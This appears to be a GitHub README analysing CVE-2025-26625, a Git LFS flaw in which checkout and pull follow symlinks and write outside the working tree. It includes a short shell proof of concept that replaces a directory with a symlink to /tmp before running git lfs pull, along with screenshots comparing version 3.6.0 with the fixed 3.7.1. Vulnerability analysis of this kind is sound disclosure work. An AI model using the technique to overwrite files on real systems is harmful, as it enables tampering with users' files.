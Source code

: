 # CVE-2025-26625: Git LFS Vulnerability Analysis and Mitigation
<img width="401" height="737" alt="image" src="https://github.com/user-attachments/assets/078b3370-fe30-4ac2-849b-956354fe12f0" />

## Overview

**CVE-2025-26625** is a vulnerability affecting **Git LFS (Git Large File Storage)** versions **0.5.2 through 3.7.0**, where the commands  
`git lfs checkout` and `git lfs pull` fail to properly validate symbolic links before writing to files in the working tree.

Discovered and disclosed on **October 17, 2025**, this issue impacts all Git LFS installations released since version 0.5.2.  
It was documented in both the **GitHub Security Advisory** and the **National Vulnerability Database (NVD)**.

---

## Technical Details

The vulnerability arises from **improper link resolution before file access**, classified under **[CWE-59: Improper Link Resolution Before File Access ('Link Following')](https://cwe.mitre.org/data/definitions/59.html)**.

When Git LFS populates a repository’s working tree with large file objects, certain commands may inadvertently **follow existing symbolic or hard links**.  
If those links point **outside the repository’s working tree**, the LFS process may write data to unintended locations on the filesystem — potentially allowing a malicious repository to modify arbitrary files accessible to the user.

**Affected Commands:**
- `git lfs checkout`
- `git lfs pull`
---

```
# Machine A
mkdir lfs-remote-demo && cd lfs-remote-demo
git init
git lfs install
git lfs track "*.bin"
mkdir data
printf "you got pwned\n" > data/file.bin
git add .gitattributes data/file.bin
git commit -m "Add LFS file"
git push


# Machine B
git clone <the-remote-url> lfs-attack-demo
cd lfs-attack-demo

# At this point git has created "data" (a directory) and a pointer file or placeholder.
# Now remove the directory and replace it with a symlink to /tmp (or another safe path)
# yeah... the victim will need to create the symblink and pwn themselves...
rm -rf data
ln -s /tmp data

# Now run git lfs pull
git lfs pull

```

Example using `git lts` version 3.6.0: file written to the `SHOULD_BE_EMPTY` directory

<img width="851" height="852" alt="image" src="https://github.com/user-attachments/assets/4893d041-33f4-4f6c-a9ca-18038fecd0e6" />


Upgraded `git lts` version 3.7.1: Nothing written to the `SHOULD_BE_EMPTY` directory

<img width="851" height="789" alt="image" src="https://github.com/user-attachments/assets/41fd309a-1610-44f5-97dd-fe7e8ec5e229" />
